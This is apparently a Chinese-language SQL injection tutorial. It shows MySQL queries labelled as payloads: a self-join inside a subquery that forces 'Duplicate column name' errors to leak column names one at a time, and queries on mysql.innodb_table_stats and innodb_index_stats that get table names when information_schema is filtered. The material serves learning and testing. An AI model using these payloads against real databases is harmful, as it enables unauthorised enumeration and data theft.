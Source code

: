 join的基本语法
``` sql
mysql> select * from newtable a join newtable2 b;
+------+------+----------+------+-------+----------+
| id   | name | pwd      | id2  | name2 | pwd2     |
+------+------+----------+------+-------+----------+
|    1 | zww  | 123456   |    4 | zww   | 123456   |
|    2 | zww2 | 1234567  |    4 | zww   | 123456   |
|    3 | zww3 | 12345678 |    4 | zww   | 123456   |
|    1 | zww  | 123456   |    5 | zww2  | 1234567  |
|    2 | zww2 | 1234567  |    5 | zww2  | 1234567  |
|    3 | zww3 | 12345678 |    5 | zww2  | 1234567  |
|    1 | zww  | 123456   |    6 | zww3  | 12345678 |
|    2 | zww2 | 1234567  |    6 | zww3  | 12345678 |
|    3 | zww3 | 12345678 |    6 | zww3  | 12345678 |
+------+------+----------+------+-------+----------+
9 rows in set (0.00 sec)

```
要理解各种JOIN首先要理解笛卡尔积。笛卡尔积就是将A表的每一条记录与B表的每一条记录强行拼在一起。所以，如果A表有n条记录，B表有m条记录，笛卡尔积产生的结果就会产生n*m条记录。在这里就是3\*3=9条记录

留意一下，上面使用join之后返回的数据中的列名分别由newtable的列名和newtable2的列名组成
那么，如果join之间的表格是同一个表格会怎么样呢？可想而知，列名会重复，这样就会造成sql查询报错，而这个报错类型会直接返回列名，这样我们就可以从报错信息中直接获取到表的列明了

payload:
``` sql
mysql> select * from (select * from newtable a join newtable b)c;                         
ERROR 1060 (42S21): Duplicate column name 'id'
-- 这里如果使用 select * from newtable a join newtable b 是不会报错的，原因应该是执行这个语句时并没有去遍历列名
```

这里报错信息直接给了第一列的列名
后序的列名只需要用“using(前一个列名)”即可

第二列
``` sql
mysql> select * from (select * from newtable a join newtable b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```

## 获取表名
在有些情况下，因为过滤了or字段而导致information_schema这个库不能使用，这种情况下，我们如何查表名呢？

下面的payload参考了[MustaphaMond](https://www.cnblogs.com/20175211lyz/p/12358725.html)师傅

### Innodb

MySQL 5.6 及以上版本存在innodb_index_stats，innodb_table_stats两张表，其中包含新建立的库和表

```sql
select table_name from mysql.innodb_table_stats where database_name = database();
select table_name from mysql.innodb_index_stats where database_name = database();
```
